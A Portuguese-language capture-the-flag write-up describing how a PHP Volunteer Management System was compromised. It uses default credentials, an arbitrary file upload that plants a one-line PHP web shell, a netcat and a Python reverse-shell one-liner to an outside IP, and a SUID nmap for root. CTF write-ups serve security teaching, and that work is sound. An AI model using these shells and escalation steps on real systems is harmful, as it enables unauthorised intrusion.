 # Sistema Seguro

### Descrição
```
Você foi contratado para testar a segurança de um revolucionário sistema de colaboração entre voluntários. Será que existe algum problema nele?
```
**Pontuação**: 200

**Dica**: Não tem nenhuma ferramenta esquisita ai não?

**OBS**: O servidor mudou de IP entre algumas screenshots do write-up, mas é o mesmo ambiente

### Write-up
Ao acessar o IP utilizando um browser, nos deparamos com uma aplicação chamada "PHP Volunteer Management System"

![alt text](images/pwn200-1.png "pwn200 app")

Analisando o código-fonte, é possível extrair a versão dessa aplicação.

![alt text](images/pwn200-2.png "pwn200 app version")

Procurando por vulnerabilidades nessa aplicação no [ExploitDB](https://www.exploit-db.com) utilizando o `searchsploit`, é possível ver que existe um `Arbitrary File Upload`

![alt text](images/pwn200-3.png "pwn200 searchsploit")
![alt text](images/pwn200-4.png "pwn200 file upload info")

Porém o sistema precisa de credenciais para a vulnerabilidade poder ser explorada. Procurando sobre as credenciais padrão utilizando o google, chegamos em `admin:volunteer`

![alt text](images/pwn200-5.png "pwn200 creds")

Com as credenciais, é possível acessar o sistema

![alt text](images/pwn200-6.png "pwn200 dashboard")

Acessando a página vulnerável, podemos enviar um arquivo `shell.php` com o seguinte conteúdo

```php
<?php system($_GET['cmd']) ?>
```

![alt text](images/pwn200-7.png "pwn200 shell upload")

Segundo a descrição da vulnerabilidade, os arquivos ficam disponíveis em `mods/documents/uploads`. Adicionando o caminho na URL, chegamos em um `directory listing` que revela um arquivo PHP

![alt text](images/pwn200-8.png "pwn200 dir listing")

Acessando esse arquivo e passando um comando dentro do parâmetro GET `cmd` para teste, confirmamos que a shell foi enviada com sucesso

![alt text](images/pwn200-9.png "pwn200 passwd file")

Inicialmente tentamos abrir uma shell reverse utilizando `netcat` com o comando `nc <ip> <port> -e /bin/bash`, porém a execução de comandos do `netcat` não está habilitada. Utilizando python, obtemos sucesso em abrir uma shell reversa com o seguinte comando, retirado do [cheat sheet da PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

A primeira coisa que faremos é pegar uma shell interativa  e depois tentar escalar os privilégios. Utilizando o `linuxprivchecker.py` que pode ser obtido [nesse link](https://github.com/sleventyeleven/linuxprivchecker).

![alt text](images/pwn200-10.png "pwn200 reverse shell")

Após analisar a saída do script, é possível ver uma ferramenta estranha chamada `nettool` que está com SUID ativado.

![alt text](images/pwn200-11.png "pwn200 suid")

Executando essa ferramenta, podemos ver que é uma versão desatualizada do `nmap`, que contém um vetor de escalação de privilégios bem conhecido, utilizando o modo `interactive`

![alt text](images/pwn200-12.png "pwn200 nmap")

Com a escalação de privilégios para `root`, podemos procurar a flag (que normalmente está na pasta `/root` nesse tipo de desafio). O arquivo escondido `.flag` revela a flag do desafio

![alt text](images/pwn200-13.png "pwn200 flag")
